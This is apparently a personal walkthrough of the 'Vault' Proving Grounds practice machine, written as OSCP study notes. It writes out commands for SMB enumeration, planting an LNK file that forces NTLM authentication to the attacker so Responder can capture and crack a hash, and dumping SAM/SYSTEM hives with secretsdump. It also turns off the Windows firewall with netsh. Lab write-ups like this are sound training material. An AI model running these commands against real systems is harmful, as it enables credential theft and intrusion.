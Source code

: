 # Vault Helped-Through

Name: Vault
Date:  10/5/2023
Difficulty: Hard  
Goals:  
- Previous OSCP practice exam 
Learnt:
- Some Practice machines are not for OSCP.

Previously I tried to do this machine as part of a practice OSCP exam attempt. Little did I know that this machine required responder. Although I really excelled in finding and combing through machines it also really hurt my chances with stress and that made me reconsider long term plans. Hopeful the later half of this year will bring a better life in many respects. One very important event was discovery and really trying to emulate and understand hackers like [XCT](https://www.youtube.com/watch?v=fRbVdbY1d28), prior to the recent rank changes of HTB seasons was top 1 on HTB. The rankinug which will move to official post beta phase in less than 30 days. I have set my sights on atleast getting Silver rank out of Bronze, Silver, Ruby, Platinum and Holo, but go for Ruby. I think I could maybe get one hard machine in a week, but I doubt it and I would have to get lucky.

## Recon - Previous Attempt

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Vault/Screenshots/ping.png)

There are shares
![](enumfourlinuxshares.png)
smbmap show permissions
![](readwriteShare.png)

Bang on the [Tamil music to stay culturally enriched](https://www.youtube.com/watch?v=V8R1aZf1-AU). Anirudh is a tamil name on first google. 
![](bruteridsanirudh.png)

We have a writable share, a username - need a password and means of execution. After considering everything I went for both enumeration hint - it is ballbuster because it declare the the share is writable and the second is that there is a scripted user that will click shortlinks.

"Mount a client-side attack by uploading a shortcut file to the SMB share. A user will view the share and render file icons in it."

After some checking. This is definately not a OSCP like machine. So I am going to use metasploit or some C2  as I thought that this would not involve fake social engineering practice. Basically to keep the process clean and not mental fazzle myself doing this machine. Also [pentesterlab](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/) suggests we can use Empire which is OSCP related.

Edited from the article
```python
usemodule powershell/persistence/userland/backdoor_lnk
usestager windows/launcher_lnk
set Listener http
execute
```

We can put a shell on `smbclient -N ///DocumentsShare -U guest%<put empty quotes here>``

Did not get call back, but I also did not remove it from the share, so it is not considered malicious. So it might that want something really specific. For my 12 hour assessment - I am happy I enumerated well, will give myself the hour remaining to finish HTB Acute. 

## Return with XCT 

Regardless Client-Side Attacks are still part of OSCP course, but there is never pretend users in the exam. 

- Legacy Windows machine .scf could be used to beacon back to you box
- Shortcut files .lnk
- [XCT's Hashgrab](https://github.com/xct/hashgrab) - *"Generates scf, url & lnk payloads to put onto a smb share. These force authentication to an attacker machine in order to grab hashes (for example with responder)."*

```bash
smbclient -L \\192.168.156.172
# Connect to share
smbclient \\\\192.168.156.172\\DocumentsShare
# Test upload - smb: get $file
# Hashgrab
python3 hashgrab.py 192.168.45.5 xctisawesome
# Responder 
sudo responder -I tun0 
# Reconnect to share
smbclient \\\\192.168.156.172\\DocumentsShare
put xctisawesome.lnk
# wait..
```

And NLTMv2 relay!
![1080](anirudhshash.png)

Crack to get:
```
anirudh : SecureHM
```

## PrivEsc

Although as I have the walkthrough open for this I 
![1080](whoisanirudh.png)

We can perform backup of SYSTEM hive and dump with `impacket-secretsdump`
```powershell
cmd /c "reg save HKLM\SAM SAM & reg save HKLM\SYSTEM SYSTEM"
*Evil-WinRM* PS> download SYSTEM
*Evil-WinRM* PS> download SAM
# Wait...
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

![](administratorhash.png)

Can not WinRM in with hash. At this point I turned to the video as I do not want to crack hashes. He discusses GPOs but I want to enumerate to atleast find the vector.
![](cmemodules.png)

We could use powerview.ps1
![](gpowithpowerview.png)

I ran the latest winpeas 
![](permiswinpeas.png)

Remote [Bloodhound.py](https://github.com/fox-it/BloodHound.py)
```bash
sudo python3 bloodhound.py -c all -d vault.offsec -ns 192.168.156.172 -u 'anirudh' -p 'SecureHM'
```


https://www.youtube.com/watch?v=fRbVdbY1d28 - 4:15

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#exploit-group-policy-objects-gpo

https://github.com/FuzzySecurity/StandIn

## Beyond Root

#### Unintended Ways

https://github.com/xct/xc to celebrate kick the bad memories of this machine out will a bang I want to promote XCT and his xc shell.


#### Firewall fun

Firewall fun has been sitting in my to do list for beyond root.
```powershell
# Check Profile
netsh advfirewall show currentprofile

# Turn off the Firewall
NetSh Advfirewall set allprofiles state off

# Modify a Firewall Rule for a program
netsh advfirewall firewall add rule name="<Rule Name>" program="<FilePath>" protocol=tcp dir=in enable=yes action=allow profile=Private
netsh advfirewall firewall add rule name="<Rule Name>" program="<FilePath>" protocol=tcp dir=out enable=yes action=allow profile=Private
# Delete a rule
netsh.exe advfirewall firewall delete rule "<Rule Name>"
```
[test](https://www.itninja.com/blog/view/how-to-add-firewall-rules-using-netsh-exe-advanced-way)


```powershell
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block 
```

```powershell
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block |
Format-Table -Property 
DisplayName, 
@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},
@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}}, @{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},
@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},
Enabled,
Profile,
Direction,
Action"
```

```powershell
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block | Format-Table -Property DisplayName,@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}}, Enabled, Profile,Direction,Action"

```

```powershell
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Allow
```



